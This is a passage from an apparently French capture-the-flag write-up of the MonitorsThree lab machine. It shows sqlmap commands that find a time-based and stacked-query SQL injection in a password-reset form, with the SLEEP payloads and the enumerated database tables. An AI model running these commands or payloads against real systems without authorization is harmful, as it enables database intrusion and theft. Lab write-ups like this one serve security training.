 Je lance donc un scan sqlmap en fond sur le paramètre. 

(Evidemment je mets mysql pour préciser, comme MariaDB est un fork de mysql)

```bash
➜  ~ sqlmap -u http://monitorsthree.htb/forgot_password.php --data "username=*" --level=5 --dbms mysql --tables --batch --threads=10

sqlmap identified the following injection point(s) with a total of 1299 HTTP(s) requests  
:  
---  
Parameter: #1* ((custom) POST)  
   Type: stacked queries  
   Title: MySQL >= 5.0.12 stacked queries (comment)  
   Payload: username=';SELECT SLEEP(5)#  
  
   Type: time-based blind  
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
   Payload: username=' AND (SELECT 9931 FROM (SELECT(SLEEP(5)))cHAe)-- omry  
---  
[19:06:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu  
web application technology: PHP, Nginx 1.18.0  
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

[00:19:15] [INFO] retrieved: users  
[00:25:51] [INFO] fetching number of tables for database 'information_schema'  
[00:25:51] [INFO] resumed: 79  
[00:25:51] [INFO] resumed: ALL_PLUGINS  
[00:25:51] [INFO] resumed: APPLICABLE_ROLES  
[00:25:51] [INFO] resumed: CHARACTER_SETS  
[00:25:51] [INFO] resumed: CHECK_CONSTRAINTS  
[00:25:51] [INFO] resumed: COLLATIONS  
[00:25:51] [INFO] resumed: COLLATION_CHARACTER_SET_APPLICABILITY  
[00:25:51] [INFO] resumed: COLUMNS  
[00:25:51] [INFO] resumed: COLUMN_PRIVILEGES  
[00:25:51] [INFO] resumed: ENABLED_ROLES  
[00:25:51] [INFO] resumed: ENGINES  
[00:25:51] [INFO] resumed: EVENTS  
[00:25:51] [INFO] resumed: FILES  
[00:25:51] [INFO] resumed: GLOBAL_STATUS  
[00:25:51] [INFO] resumed: GLOBAL_VARIABLES  
[00:25:51] [INFO] resumed: KEYWORDS  
[00:25:51] [INFO] resumed: KEY_CACHES
```

Pouf il a trouvé, on était ici sur une SQLi Time Based :D

```bash
➜  ~ sqlmap -u http://monitorsthree.htb/forgot_password.php --data "username=*" --level=5 --dbms mysql --tables --batch --threads=10

[23:43:50] [INFO] resumed: monitorsthree_db

➜  ~ sqlmap -u http://monitorsthree.htb/forgot_password.php --data "username=*" --level=5 --dbms mysql --tables -D monitorsthree_db --batch --threads=10

Database: monitorsthree_db  
[6 tables]  
+---------------+  
| changelog     |  
| customers     |  
| invoice_tasks |  
| invoices      |  
| tasks         |  
| users         |  
```